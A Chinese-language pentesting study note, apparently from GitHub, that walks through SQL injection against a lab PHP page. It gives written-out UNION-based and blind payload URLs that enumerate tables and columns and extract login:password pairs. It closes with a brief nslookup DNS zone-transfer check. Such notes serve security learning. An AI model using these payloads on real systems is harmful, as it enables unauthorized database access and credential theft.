 #Pentester
##一、sql injection
###基本思路：
- 1. 判断是否有注入
- 2. 判断当前库名，表名，字段名
- 3. 获取数据
- 4. 考虑无回显处理


###sql基本用法
- 1.select id,num from test union select 1,2
一般会逐个替换1,2换成想要显示的信息，需要确定哪个位置可以正确显示，当只有一个位置可以显示的时候，可以使用concat,这里可以判断查询使用了几个字段，如果该语句正常则表示使用了2个字段。如果union用不了可以使用order by 判断。 例子： order by 1 正确，order by 3 错误则表示查询使用了2个字段
例如：select ip from temp union select concat(@@version,':',database());
例2：select concat('my','s','ql','+',@@version);   结果：mysql+5.6.28
例3：select num,ip from temp union select 1,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;
num为数字型，ip为字符型，information表里面的信息都是字符型，所有要放在2这个位置，放在1的位置会报错（类型不匹配）
注意：union后面跟的列的个数必须和前面select 的个数一致,union select 后面的数字可以接任意想获取的信息（version(),current_user(),@@version,database()等）
concat()函数用于连接一行中的字段，显示效果还是会有多行，而 group_concat用于把所有字段的内容都显示成一个大字符串。
mysql> select concat(id,name) from table1;
+-----------------+
| concat(id,name) |
+-----------------+
| 1luyg           |
| 2lucy           |
+-----------------+

mysql> select group_concat(id,name) from table1;
+-----------------------+
| group_concat(id,name) |
+-----------------------+
| 1luyg,2lucy           |
+-----------------------+

- 2.select id,num from test order by 2  根据num进行排序
   select * from test order by 4 根据第四列进行排序，通过这个语句可以判断数据表中有多少列
- 3. select substr(table_name,17,1) from information_schema.tables limit 1;
  substr用于字符串截取，17代表取出第17个字符，后面的1代表取1个，如果是2代表从17的位置开始取出2个字符，   limit 1代表取出1条记录
- 实战:
 1. 判断注入：
http://172.16.45.128/cat.php?id=1 and true   返回正确结果
http://172.16.45.128/cat.php?id=1 and false  返回错误结果
该url存在注入
 2. 判断查询的字段个数：
http://172.16.45.128/cat.php?id=1 union select 1,2,3,4 返回正确结果
 3.判断数据库版本和库名
http://172.16.45.128/cat.php?id=1 union select 1,@@version,3,4 这里把最后的2变成了@@verison 实际的sql语句变成了  select @@version , 放在2这个位置是因为在页面上有显示内容，可以直接把查询后的信息在页面上展示了，这个可以根据实际情况进行适当处理，2这个位置可以换成database()来获取库名字，user()获取数据库用户名
4. 判断表名
使用union方式：
http://172.16.45.128/cat.php?id=1 union select 1,(select GROUP_CONCAT(table_name) FROM information_schema.tables),3,4
![image](https://github.com/luyg24/IT_security/blob/master/guess_table.png)
上述方法会查找所有表名，如果只想查找指定数据库的表，使用table_schema作为条件判断
select id,name,sex from table1 union select 1,(select GROUP_CONCAT(table_name) FROM information_schema.tables where table_schema = 'photoblog'),3;
使用盲注方式：
http://172.16.45.128/cat.php?id=1 and (SELECT SUBSTR(table_name,1,1) FROM information_schema.tables limit 1 ) > 'A'
如果返回正常代表表名的第一个字符是>'A'的
select * from users where id = 1 and ((SELECT SUBSTR(table_name,1,1) FROM information_schema.tables limit 1 )> 'A');
http://172.16.45.128/cat.php?id=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name = 'users'),1,1

5. 获取字段
select column_name from information_schema.columns where table_name = 'users'

6. 获取数据
http://172.16.45.128/cat.php?id=1 union select 1,(select concat(login,':',password) from users),1,1


- 参考：http://drops.wooyun.org/tips/123
##二、
###dns区域传送检查
- nslookup 进入交互shell，使用server 指定dns服务器，然后 ls -d 域名，例如ls -d abc.com.cn   即可
参考：http://www.lijiejie.com/dns-zone-transfer-1/
- 

